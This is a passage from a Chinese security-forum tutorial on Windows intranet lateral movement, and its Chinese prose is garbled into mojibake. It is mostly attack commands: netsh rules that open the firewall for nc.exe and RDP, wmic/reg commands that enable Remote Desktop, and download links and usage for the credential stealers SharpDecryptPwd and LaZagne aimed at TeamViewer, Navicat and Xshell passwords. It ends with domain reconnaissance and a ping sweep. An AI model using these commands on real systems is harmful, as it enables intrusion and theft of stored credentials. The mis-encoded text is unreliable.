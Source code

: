 program=âC:\nc.exeâå è®¸æå®ç¨åºéåº(windows server 2003å)  
Netsh advfirewall firewall add rule name=âRemote Desktopâ protocol=TCP
dir=in localport=3389 action=allow å è®¸3389è¿æ¥(windows server 2003å)  
Netsh advfirewall set currentprofile logging
filename=âC:\winodws\temp\fw.logâ èªå®ä¹é²ç«å¢æ¥å¿å­å¨ä½ç½®  
Reg query
âHKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet
Settingsâæ¥çç«¯å£ä»£çé ç½®ä¿¡æ¯  
Reg query âHKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal
Server\WinStations\RDP-Tcpâ /V PortNumberæ¥çè¿ç¨æ¡é¢ç«¯å£å·  
ä»¥ä¸å½ä»¤æ¯å¼å¯3389ç«¯å£ (windows server 2003å)  
wmic /namespace:\root\cimv2\terminalservices path win32_terminalservicesetting
where (__CLASS != "") call setallowtsconnections 1  
wmic /namespace:\root\cimv2\terminalservices path win32_tsgeneralsetting where
(TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1  
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v
fSingleSessionPerUser /t REG_DWORD /d 0 /f  
net start TermService

##
[](https://bbs.pediy.com/thread-268289.htm#1.2%E6%94%B6%E9%9B%86%E7%AC%AC%E4%B8%89%E6%96%B9%E7%99%BB%E5%BD%95%E5%87%AD%E8%AF%81%E6%94%B6%E9%9B%86%EF%BC%9A)1.2æ¶éç¬¬ä¸æ¹ç»å½å­è¯æ¶éï¼

SharpDecryptPwdï¼  
https://github.com/uknowsec/SharpDecryptPwd/raw/master/SharpDecryptPwd.exe  
TeamViewer :SharpDecryptPwd.exe -TeamViewer  
Navicat: SharpDecryptPwd.exe -NavicatCrypto  
Xshellï¼SharpDecryptPwd.exe -Xmangager -p SessionPath -s username+sid(whoami
/user)  
laZagne ï¼  
https://github.com/ethicalhackeragnidhra/LaZagne/archive/2.3.1.zip  
ä½¿ç¨æ¹æ³ï¼laZagne.exe all



æä»¬ç¨ä¸è¿°å½ä»¤ç®åæ¶éè®¡ç®æºåºæ¬ä¿¡æ¯ï¼  
Ipconfig /all æ ¹æ®DNSåç¼å¤æ­æ¯å¦æå  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_48W2TXKXQJCT4CN.png)  
Net view /domain å¤æ­æ¯å¦å­å¨å  
ç¡®å®åæ§çipå°åï¼  
net time /domain  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_6B5EA87AEUT9Y2P.png)  
ç¶åéè¿nslookupæpingç¡®å®å ¶åæ§ip:  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_DSCH2B985WR3PAZ.png)  
ç¡®å®å½åå å­æ´»ä¸»æºï¼  
for /L %I in (1,1,256) DO @ping -w 1 -l 1 192.168.202.%I | findstr âTTL=â

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%BA%8C%E3%80%81%E4%BD%BF%E7%94%A8%E6%98%8E%E6%96%87%E4%BC%A0%E9%80%92%E8%BF%9B%E8%A1%8C%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)äºãä½¿ç¨ææä¼
éè¿è¡å ç½æ¨ªåç§»å¨
